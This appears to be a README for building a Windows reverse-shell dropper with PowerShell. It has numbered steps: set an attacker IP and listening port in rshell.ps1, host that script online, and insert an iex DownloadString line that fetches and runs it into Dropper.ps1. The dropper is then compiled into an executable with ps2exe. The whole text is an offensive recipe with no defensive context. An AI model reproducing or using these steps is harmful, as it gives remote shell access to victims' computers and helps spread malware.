 1. Modify  rshell.ps1
set your IP address and listen port:
>$LHOST = "XXX.XXX.XXX.XXX"; 
>$LPORT = XXXXX;

2. Install ps2exe module
>Install-Module ps2exe

3. Upload rshell.ps1 file as plain text somewhere and paste link to it into Dropper.ps1:
>iex(New-Object Net.WebClient).DownloadString('YOUR LINK HERE');

4. Compile Dropper.ps1:
>Win-Ps2exe

5. Now you have your own exe shell dropper.
